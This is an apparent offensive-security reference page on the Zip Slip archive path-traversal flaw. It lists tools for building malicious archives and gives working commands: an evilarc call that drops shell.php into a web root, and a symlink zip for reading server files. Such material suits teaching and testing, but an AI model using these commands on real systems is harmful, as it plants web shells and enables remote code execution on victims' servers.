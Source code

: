 # Zip Slip

> The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../shell.php). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar and 7z. The attacker can then overwrite executable files and either invoke them remotely or wait for the system or user to call them, thus achieving remote command execution on the victim’s machine. 

## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Exploits](#exploits)
    * [Basic Exploit](#basic-exploit)
* [Additional Notes](#additional-notes)


## Tools

- [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) - Create tar/zip archives that can exploit directory traversal vulnerabilities 
- [usdAG/slipit](https://github.com/usdAG/slipit) - Utility for creating ZipSlip archives 


## Detection

Any ZIP upload page on the application.


## Exploits

### Basic Exploit

Using [ptoomey3/evilarc](https://github.com/ptoomey3/evilarc):

```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

Creating a ZIP archive containing a symbolic link:

```ps1
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```

### Additional Notes

For affected libraries and projects, visit [snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)


## References

- [Zip Slip - Snyk - Jun 5, 2018](https://github.com/snyk/zip-slip-vulnerability)
- [Zip Slip Vulnerability - Snyk - April 15, 2018](https://snyk.io/research/zip-slip-vulnerability)